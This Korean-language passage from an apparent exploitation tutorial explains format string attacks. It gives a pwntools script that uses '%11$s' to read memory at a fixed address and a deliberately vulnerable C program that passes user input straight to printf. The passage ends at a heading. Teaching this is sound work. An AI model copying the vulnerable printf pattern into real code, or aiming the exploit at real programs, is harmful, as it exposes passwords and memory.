 다음과 같이 컴파일하세요:
```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```
### 익스플로잇
```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```
* **오프셋은 11**입니다. 여러 개의 A를 설정하고 0에서 50까지 루프를 통해 **브루트 포싱**한 결과, 오프셋 11에서 5개의 추가 문자(우리 경우에는 파이프 `|`)와 함께 전체 주소를 제어할 수 있음을 발견했습니다.
* **`%11$p`**를 사용하여 주소가 모두 0x4141414141414141이 되도록 패딩을 추가했습니다.
* **포맷 문자열 페이로드는 주소 앞에** 위치합니다. **printf는 널 바이트에서 읽기를 멈추기 때문에**, 주소를 보내고 나서 포맷 문자열을 보내면, 널 바이트가 먼저 발견되어 printf는 포맷 문자열에 도달하지 못합니다.
* 선택된 주소는 0x00400000입니다. 이 주소는 바이너리가 시작되는 위치입니다(PIE 없음).

<figure><img src="broken-reference" alt="" width="477"><figcaption></figcaption></figure>

## 비밀번호 읽기
```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
char stack_password[20] = "secretStackPass"; // Password in stack
char input1[20], input2[20];

printf("Enter first password: ");
scanf("%19s", input1);

printf("Enter second password: ");
scanf("%19s", input2);

// Vulnerable printf
printf(input1);
printf("\n");

// Check both passwords
if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
printf("Access Granted.\n");
} else {
printf("Access Denied.\n");
}

return 0;
}
```
다음과 같이 컴파일하세요:
```bash
clang -o fs-read fs-read.c -Wno-format-security
```
### 스택에서 읽기
